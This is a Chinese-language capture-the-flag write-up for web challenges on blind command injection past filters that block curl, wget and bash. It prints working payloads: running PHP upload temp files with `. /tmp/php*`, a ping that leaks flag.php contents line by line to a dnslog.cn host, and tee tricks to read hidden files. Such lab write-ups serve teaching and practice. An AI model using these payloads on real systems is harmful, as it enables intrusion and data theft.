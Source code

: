 ![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208121732095.png)

过滤了 curl wget 等函数, bash sh 也过滤了

想到了利用 `.` 执行文件的方法 (无需 x 权限)

利用 PHP 上传时保存在 `/tmp/php[六位大小写字母]` 的缓存文件执行命令

```bash
`$F`; . /tmp/php*
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208121743166.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208121744387.png)

hint 如下

```bash
`$F`; ping `cat flag.php|awk 'NR==2'`.xxx.dnslog.cn
# 通过 ping 命令去带出数据, 然后 awk NR 一排一排的获得数据
```

后来发现这题直接 mv cp 也能做...

```bash
`$F`; mv flag.php aaa.txt
```

## web136

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208121750817.png)

无回显命令执行, 过滤了很多...

hint 提示如下

```
ls /|tee 1
cat /f149_15_h3r3|tee 2
```

tee 参考文章  [https://zhuanlan.zhihu.com/p/34510815](https://zhuanlan.zhihu.com/p/34510815)

根目录内容

```
bin
dev
etc
f149_15_h3r3
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```
